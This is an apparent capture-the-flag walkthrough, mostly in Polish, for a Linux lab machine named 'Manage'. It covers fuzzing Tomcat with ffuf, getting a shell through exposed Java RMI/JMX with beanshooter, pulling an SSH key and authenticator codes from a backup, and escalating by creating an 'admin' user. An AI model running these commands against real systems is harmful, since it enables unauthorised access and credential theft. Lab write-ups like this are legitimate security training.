 # Manage
Linux, Easy, vreated by **fume & xct**

![manage_slide](https://github.com/user-attachments/assets/9aaaf3e7-585b-4d15-8682-bd80627f52b8)


```
ffuf -w ~/raft.txt -u http://10.10.120.243:8080/FUZZ -c -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36' -mc all -fs 763 -fw 68,66
```
```
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
2222/tcp open  java-rmi Java RMI
8080/tcp open  http     Apache Tomcat 10.1.19
```

```
RELEASE-NOTES.txt       [Status: 200, Size: 6776, Words: 839, Lines: 174, Duration: 60ms]
examples                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 95ms]
favicon.ico             [Status: 200, Size: 21630, Words: 19, Lines: 22, Duration: 63ms]
host-manager            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 50ms]
index.jsp               [Status: 200, Size: 11219, Words: 4198, Lines: 199, Duration: 69ms]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 58ms]

```

I have exploited java-rmi many times as a pentester, but:
- only on windows
- ports were usually 1098-1100

Na linuxa to wydaje się być najlepsze `https://github.com/qtc-de/beanshooter.git`

![{E3613E74-6628-41B1-AC7B-B1A09D9549D0}](https://github.com/user-attachments/assets/4d0a8811-4c2a-4927-9451-69026eb8e4ae)

no i mamy dwóch userów.
Lecz jak odpalam helpa to widzę kilka ciekawych komend i postanowiłem się nimi pobawić 

![{BBF3BE07-431C-4D28-9413-F6F84219095B}](https://github.com/user-attachments/assets/277ee805-b314-4fb8-9dfb-4ab667e2afab)

```
java -jar target/beanshooter-4.1.0-jar-with-dependencies.jar standard 10.10.120.243 2222 tonka
java -jar target/beanshooter-4.1.0-jar-with-dependencies.jar tonka shell 10.10.120.243 2222
```

po tym mamy shella od razu :D

![{D7FA9412-D626-4EF8-9C40-C9E4FADD3981}](https://github.com/user-attachments/assets/af12f638-61f6-49d7-a8fd-1dd85c56e0b1)

After short enumeration we are able to find some backup file

![{E3A9F456-4647-4DEB-916C-00E0A42215AA}](https://github.com/user-attachments/assets/d793fde7-b572-4c42-96af-21d000e39a1c)

![{AA2D445B-FBC2-43F7-9E85-71D0BA4B5BB8}](https://github.com/user-attachments/assets/54b7d600-2656-43aa-b6ac-6e735e98ed3b)

w `.ssh/id_ed25519` mamy kluczprywatny

![{87C6DEA5-C5D9-471E-A51E-3AFBE8340862}](https://github.com/user-attachments/assets/6ec101a1-39f2-45dc-858f-779eea4af200)

mmamy kody w `.google_authenticator`

![{6727B1FD-DC9A-4EB0-8249-6621E4330798}](https://github.com/user-attachments/assets/075b7f2a-4243-4c8f-b336-182282c5acc2)

z tego co widzimy to po 3 nieudanych próbach mamy blocka na 30 minutek

![{980DBBCC-6DCF-400A-A3E9-DA63F151763F}](https://github.com/user-attachments/assets/f4fd55a0-e7ec-49fc-8b0b-580e4014e40e)

but I got it in first try!

![{059162A1-E9FA-494E-9C10-082289E6B0C0}](https://github.com/user-attachments/assets/d48d776e-6098-4da0-ba54-6e61747146ae)

eskalacja jakaś trudna się nie wydaje.

![{75CF8F79-13DE-4145-B004-5BEC3B82845D}](https://github.com/user-attachments/assets/20c55361-6656-402d-9e8a-92027f755477)

myślę, że ten switch może być pomocny

![{C942A817-7AB7-44C3-9ABD-600254FF3216}](https://github.com/user-attachments/assets/2d20ebd8-0df8-47ad-8217-5ebaa89d63ee)

przy okazji hasło do admina jest takie samo jak hasło do admin z tomcata.

Problem jaki tutaj się pojawia jest taki, że w sumie regex mocno nas ogranicza i wydaje się, że nic nie zrobimy złosliwego. Jednakże tutaj chodzi o minimalną wiedzę z linuxa, a nie jakieś sztuczki. Na systemach bazwujących na ubuntu nie tylko grupa `root` jest uprzywilejowana, ale także `admin`. Więc jeżeli dodamy użytkownika o uid `admin` automatycznie zostanie on przypisany do guid `admin` (zakładając, że nie nie ma takiego usera utworzonego wcześniej).

![{51EC5220-8A60-4EEF-9A9E-35553B7DAF76}](https://github.com/user-attachments/assets/66ac1a23-26d6-41c9-9b27-f2e64ffccf7a)

i.. tyle ;)

